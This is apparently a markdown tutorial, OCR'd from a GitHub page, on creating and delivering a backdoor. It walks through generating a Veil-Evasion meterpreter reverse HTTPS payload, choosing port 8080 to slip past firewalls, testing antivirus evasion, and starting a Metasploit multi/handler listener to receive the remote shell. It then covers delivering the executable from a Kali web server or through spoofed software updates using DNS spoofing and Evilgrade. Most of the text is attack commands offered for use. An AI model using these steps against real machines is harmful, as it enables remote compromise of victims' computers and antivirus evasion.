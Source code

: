 ## Using VEIL to create a backdoor
We are going to use 'go/meterpreter/rev_https.py' payload. It is no. 15, so

         use 15
         
We need to set ==LHOST==(the device to which the payload will connect, i.e. our device), and ==LPORT==

         set LHOST our_ip
         set LPORT 8080
         options
Ideally it is best to set the port to 80 or 8080 (since it is the ports used by websites), so it can be bypassed by firewall.
We can try changing the other options and check if the payload can be detected by antiviruses using other applications
(like, copy the 'executable written to' path and check it in the website 'nodistribute')

Now we need to ==open this port(8080)==, so that backdoor can listen. We run metasploit

        msfconsole
We will use the module that helps to listen for incoming connection from a payload.

        use exploit/multi/handler
        show options
Change the payload to the corresponding one from incoming backdoor

        set PAYLOAD windows/meterpreter/rev_https
        set LHOST our_ip
        set LPORT 8080
        exploit
        
## ==Delivery methods== for the backdoor to the target
A basic method is to create the web server (apache2) in our kali and create a folder in the website path (var/www/html) in kali and add the backdoor that we created (var/lib/veil-evasion/output/compiled - will conatin the backdoor as an executable file) there. Then we can download it by going to the ip of kali from the target.

### Backdoor delivery method1 - ==Spoofing Software Updates==
The limitation is, it requires you to be MITM - arp spoofing or fake access point 

* Fake an update for an already installed program.
* Install backdoor instead of the update
* Requires DNS spoofing + ==Evilgrade==(a server to serve the update)

Usually programs have a specific domain that they check for updates. Instead of connecting to the specific domain, we use DNS spoofing to route them to Evilgrade server.

First run evilgrade. Then to list all the programs (like fb, twitter) that we can hijack

              show modules
We will do this on 'dap'. To configure a specific module

              configure module_name(dap here)
              show options
              